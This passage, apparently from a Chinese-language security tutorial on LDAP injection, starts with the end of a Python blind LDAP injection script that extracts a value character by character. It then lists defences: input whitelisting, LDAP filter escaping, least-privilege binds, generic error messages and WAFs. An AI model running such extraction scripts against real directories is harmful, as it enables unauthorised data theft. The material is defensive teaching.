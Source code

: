 ```python

            if success_indicators:
                successful_chars += char_to_guess
                print(f"[+] Found character: '{char_to_guess}'. Current string: {successful_chars}")
                found_char_in_iteration = True
                # time.sleep(0.1) # 可选：稍微延迟避免过快请求
                break # 找到当前位置的字符，跳出内层循环，猜测下一位

        except requests.exceptions.RequestException as e:
            print(f"[-] Request error for char '{char_to_guess}': {e}")
            # 根据情况决定是否继续或停止
            # time.sleep(1) # 出错时等待

    if not found_char_in_iteration:
        print(f"\n[*] No more characters found. Final result: {successful_chars}")
        break # 外层循环结束

print("[*] Blind LDAP injection attempt finished.")

```

### 防御措施

防御 LDAP 注入的关键在于**严格处理所有用户输入**，并遵循安全编码实践。

1.  **输入验证与清理 (Input Validation and Sanitization):**
    *   **类型检查:** 确保输入符合预期的数据类型。
    *   **白名单验证:** 只允许输入包含在预定义安全字符集中的字符。拒绝或转义任何可能用于构造 LDAP 过滤器的特殊字符，如 `(`, `)`, `*`, `\`, `&`, `|`, `!`, `=`, `<`, `>`, `~`。
    *   **长度限制:** 限制输入长度，防止异常输入。
    *   **使用框架/库提供的清理函数:** 许多 Web 框架或 LDAP 库提供了用于安全处理 LDAP 输入的函数。

2.  **使用安全的 LDAP API 或转义:**
    *   **参数化查询 (如果库支持):** 类似于 SQL 的 Prepared Statements，一些现代 LDAP 库可能提供参数化接口，将用户输入作为数据传递，而不是直接拼接到过滤器字符串中。**这是最理想的方式，但并非所有库都支持。**
    *   **LDAP 过滤器转义:** 对所有插入 LDAP 过滤器的用户输入执行**专门的 LDAP 转义**。需要转义的字符至少包括 `*`, `(`, `)`, `\`, NUL (`\00`)。转义规则是用反斜杠 `\` 加上字符的两位十六进制 ASCII 值（例如 `*` 转义为 `\2a`）。许多语言的 LDAP 库提供了执行此操作的函数（如 PHP 的 `ldap_escape()` - 需要注意其模式参数）。

3.  **最小权限原则:**
    *   应用程序绑定（连接）到 LDAP 服务器时使用的账户，应只拥有执行其业务逻辑所必需的最低权限。
    *   例如，如果应用只需要验证用户凭证，则绑定用户可能只需要对用户条目的特定属性（如 `userPassword`）有比较权限，而不需要读取其他敏感属性或修改目录。
    *   避免使用 LDAP 管理员账户进行常规的应用绑定。

4.  **避免暴露过多的错误信息:**
    *   不要在生产环境中向用户显示详细的 LDAP 错误消息。这些信息可能帮助攻击者了解目录结构或确认注入是否成功。记录详细错误到服务器端日志，向用户返回通用错误提示。

5.  **Web 应用防火墙 (WAF):**
    *   部署 WAF 可以帮助检测和阻止一些常见的 LDAP 注入攻击模式。但 WAF 不应作为唯一的防御措施。

6.  **安全编码实践:**
    *   对处理用户输入并与 LDAP 交互的所有代码进行仔细的安全审查。
    *   使用成熟、维护良好的 LDAP 库和 Web 框架。